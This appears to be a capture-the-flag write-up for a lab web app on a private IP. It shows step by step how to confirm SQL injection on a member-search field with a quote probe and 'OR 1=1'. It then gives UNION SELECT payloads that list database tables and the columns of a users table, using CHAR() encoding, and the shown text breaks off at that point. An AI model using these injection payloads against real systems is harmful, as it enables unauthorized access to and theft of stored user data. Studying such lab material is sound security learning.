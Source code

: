 
in page : http://10.12.100.105/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 
```OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```


